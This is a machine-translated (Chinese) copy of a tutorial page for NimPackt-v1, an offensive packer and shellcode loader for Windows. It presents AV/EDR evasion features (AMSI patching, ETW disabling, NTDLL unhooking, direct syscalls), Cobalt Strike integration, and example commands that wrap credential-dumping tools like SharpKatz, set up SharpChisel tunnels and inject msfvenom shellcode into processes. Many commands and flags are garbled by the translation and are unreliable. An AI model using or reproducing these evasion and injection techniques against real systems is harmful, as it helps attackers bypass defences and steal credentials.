

# NimPackt-v1:用于 Opsec 和 Profit 的基于 Nim 的组装打包程序和外壳代码加载程序

> 原文：<https://kalilinuxtutorials.com/nimpackt-v1/>

.png)

NimPackt-v1 是我写过的最糟糕的代码之一(我刚刚开始学习 Nim)。正因为如此，我开始对 NimPackt 进行全面重写，命名为‘NimPackt-NG’(目前仍然是私有的)。有了这个重写，我决定开源旧分支(“NimPackt-v1”)。因此，该分支机构不再维护，并且不提供任何形式的担保或支持。当然，公关总是受欢迎的🙂

NimPackt 是一个基于 Nim 的打包程序。针对 Windows 的. NET (C#)可执行文件和外壳代码。它自动将有效负载封装在编译成本地 C 语言的 Nim 二进制文件中，因此更难检测和逆向工程。有两种主要的执行方法:

*   重新打包一个. NET 可执行文件并运行它，选择性地应用规避措施，如 API 脱钩、AMSI 补丁或禁用 ETW。
*   `**Shinject**`获取带有原始的、与位置无关的外壳代码的原始. bin 文件，并在本地或远程进程中执行它，可选地使用直接系统调用来触发外壳代码或修补 API 挂钩来规避 EDR。

目前，NimPackt 具有以下特性。

*   使用静态系统调用来修补执行以避免 EDR
*   通过使用 ShellyCoat 刷新`**NTDLL.dll**`,为衍生线程解除用户模式 API
*   Windows 修补程序事件跟踪(ETW)
*   修补防恶意软件扫描界面(AMSI)
*   AES-使用随机密钥加密有效负载，以防止静态分析或指纹识别
*   编译成`**exe**`或`**dll**`
*   支持跨平台编译(从 Linux 和 Windows)
*   与 cobaltstrike 集成，用于 ezpz 有效载荷生成

在这里可以找到用于攻击性工具的基于 C#的二进制文件的一个很好的来源。强烈建议您自己编译 C#二进制文件。即使嵌入式二进制文件是加密的，您也应该对敏感的二进制文件(如 Mimikatz)进行模糊处理，以降低被检测的风险。

## 安装

如果您在使用 Syscalls 编译二进制文件时遇到问题，请尝试将 GCC 降级到版本 8.1.0(尤其是在 Windows 上)。总是测试生成的有效载荷！

在 **Linux** 上，只需安装所需的包，并使用 Nimble 包安装程序安装所需的包和 Python 库。

**sudo apt install-y python 3 mingw-w64 nim
pip 3 install pycryptodome arg parse
nimble install winim nim crypto**

在 **Windows** 上，从这里执行 Nim 安装程序。确保安装`**mingw**`并使用提供的`**finish.exe**`实用程序正确设置路径值。如果您没有安装 Python3，那么安装所需的包，如下所示。

nimble 安装 winim nimcrypto
pip3 安装 pycryptodome argparse

### 码头工人

Docker 映像 chvancooten/nimbuild 可用于编译 NimPackt-v1 二进制文件。使用 Docker 很容易，并且避免了依赖性问题，因为所有需要的依赖性都预先安装在这个容器中。

要使用它，请为您的操作系统安装 Docker，并确保输入的外壳代码在当前文件夹中。然后，在容器中开始编译，如下所示。

**对接器运行–RM-v`pwd`:/usr/src/NP-w/usr/src/NP chvancooten/nimbuild python 3 nimpacking . py-e shineject-I sc . bin**

### 钴击插件

要安装 CobaltStrike 插件，在菜单栏中选择**`Cobalt Strike`–**>`**Script Manager**`，然后选择`**Load**`。确保从原始位置加载`**.cna**`文件，否则它将无法找到 NimPackt 脚本文件！

## 使用

**用法:nimpackt . py[-h]-E Execution mode-I input file[-a ARGUMENTS][-na][-ne][-r]
[-t inject target][-E][-o output file][-nu][-ns][-f FILETYPE][-S][-32][-S]
[-d][-V][-V]
必需参数:
-e EXECUTIONMODE，–Execution mode Execution mode【执行模式】支持“execute-assembly”或“sh inject”
-I input file，–input file input file
c#。NET 二进制可执行文件(。exe)或外壳代码(。bin)来包装
执行程序集参数:
-a 参数，–ARGUMENTS
参数来“烘焙”包装的二进制文件，或“通过”来接受运行-
时间参数(默认)
-na，–nopatchamsi 不修补(禁用)反恶意软件扫描接口(AMSI)
-ne，–nodisableetw 不禁用 Windows 事件跟踪(ETW)
shinject 参数:
-r，–远程注入外壳代码 –现有的远程注入到现有的进程中，而不是新产生的进程中(默认
false，意味着-r)(警告:VOLATILE)
其他参数:
-o OUTPUTFILE，–outfile output file
输出文件的文件名(例如“合法二进制”)。 指定不带扩展名
或路径。此属性将作为原始的
文件名
-nu、–nounhook 不要通过加载新的
NTDLL.dll
-ns 来解除目标进程中用户模式 API 挂钩、–nosyscalls 不要使用直接系统调用(Windows 代)而不是高级的
API 来规避 EDR
-f 文件类型、–FILETYPE 文件类型
文件类型来编译(“exe”或“dll”)，默认:“exe”)【T3130 秒通过计算素数
-32，–32 位编译在 32 位模式下(未测试)
-S，–Show console 显示一个控制台窗口，显示运行
-d 时应用程序的输出，–debug 启用调试模式(保留。输出文件夹中的 nim 源文件)
-v，–运行时详细打印打包的二进制文件的调试消息
-V，–version 显示程序的版本号并退出**

**例题**

**打包 SharpKatz 以在运行时接受参数，修补 NTDLL 挂钩、AMSI 和 ETW，同时在运行时将详细消息打印到可见的控制台
python3。/nimpackt . py-e execute-assembly-I bins/sharp Katz-x64 . exe-S-v
将安全带打包成带有内建参数的 DLL 文件(注意:写入 outfile，因为 stdout 对 DLL 不可用)
python3 ./nimpackt . py-f DLL-e execute-assembly-I Seatbelt.exe-a "-group = all-output file = c:\ users \ public \ downloads \ sb . txt "
用内置的凿子主连接字符串打包 SharpChisel，不要脱钩、修补 AMSI 或禁用 ETW，在运行时隐藏应用程序窗口
python 3 nimpackt . py-nu-na-ne-e execute-assembly-I bins/sharp chiself . exe-a ' client–keepalive 25s–max-retry-interval 25 解钩 NTDLL 以及使用' MSF venom-p windows/x64/exec CMD = calc . exe-f raw-o/tmp/calc . bin '生成的外壳代码
python 3 nimpackt . py-I calc . bin-E sh inject-f dll
打包原始外壳代码以在不可见窗口中的新生成的计算器线程中执行
python 3 nimpackt . py-I calc . bin-E sh inject-t " calc . exe "** 

二进制文件存储在安装目录的`**output**`子文件夹中。生成的`**dll**`文件可以如下执行(可以在 Nim 模板中更改入口点):

**rundal 32 examples shinjectnimpacka . dll，IconSrv**

[Download](https://github.com/chvancooten/NimPackt-v1)